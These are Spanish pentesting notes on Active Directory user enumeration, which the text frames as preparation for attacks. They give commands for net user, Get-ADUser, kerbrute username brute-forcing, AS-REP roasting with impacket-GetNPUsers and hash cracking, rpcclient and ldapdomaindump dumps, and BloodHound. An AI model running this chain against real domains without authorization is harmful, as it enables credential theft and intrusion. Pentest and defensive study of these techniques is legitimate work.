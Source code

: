 Esto nos mostrará todos los usuarios de AD y puede ser útil para determinar el tamaño del dominio para preparar futuros ataques. También podemos usar esta subopción para enumerar información más detallada sobre una sola cuenta de usuario:

```
cmd> net user <usuario> /domain
```

Enumeración a través de Powershell:

Podemos usar el cmdlet `Get-ADUser` para enumerar los usuarios de AD:

```
PS> Get-ADUser -Identity <user> -Server <servidor> -Properties * 
```

- Identidad: El nombre de la cuenta que estamos enumerando.
- Propiedades: Qué propiedades asociadas con la cuenta se mostrarán, * mostrará todas las propiedades.
- Servidor: Como no estamos unidos a un dominio, debemos usar este parámetro para apuntar a nuestro controlador de dominio.


Enumeración con kerbrute:

Descargar la herramienta: https://github.com/ropnop/kerbrute/releases
Darle permisos de ejecución.
Descargar wordlist o crear uno: https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt


Busca usuarios con esa lista:

```
./kerbrute userenum --dc <dc> -d <dominio> <wordlist>
```

```
./kerbrute userenum -dc-ip <IP> -d <dominio> <wordlist>
```

Si sale alguno con (no preauth), usar

```
impacket-GetNPUsers <dominio>/<user> -no-pass
```

Si conseguimos hash y romperlo con john, podemos intentar enumerar los usuarios del dominio:

```
rpcclient -U <user%contraseña> <IP>
rcclient $> enumdomusers
```

O con ldapdomaindump:

```
ldapdomaindump -u '<dominio>\<usuario>' -p 'pass' <IP>
```

Una vez tienes creds, bloodhound.

